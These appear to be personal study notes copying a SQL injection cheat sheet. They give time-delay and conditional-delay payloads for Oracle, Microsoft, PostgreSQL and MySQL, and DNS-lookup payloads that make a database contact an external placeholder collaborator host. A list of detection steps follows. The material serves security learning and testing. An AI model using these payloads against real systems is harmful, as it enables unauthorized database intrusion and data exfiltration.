 ## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

<table><tbody><tr><th>Oracle</th><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><th>Microsoft</th><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT pg_sleep(10)</code></td></tr><tr><th>MySQL</th><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

<table><tbody><tr><th>Oracle</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual</code></td></tr><tr><th>Microsoft</th><td><code>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END</code></td></tr><tr><th>MySQL</th><td><code>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')</code></td></tr></tbody></table>

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

<table><tbody><tr><th>Oracle</th><td><p>(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p><code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code><p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></td></tr><tr><th>Microsoft</th><td><code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</code></td></tr><tr><th>PostgreSQL</th><td><code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</code></td></tr><tr><th>MySQL</th><td><p>The following techniques work on Windows only:</p><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></td></tr></tbody></table>

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

![[Pasted image 20241103054707.png]]




## Ways to detect SQL Injection:
Test every entry point in the application
- use ' and check for anomalies or errors
- look for systematic differences in the application responses
- 1=1 or 2=2
- time delay payloads
- OAST payload to trigger out-of-band network interaction, monitor results
- burp suite scanner
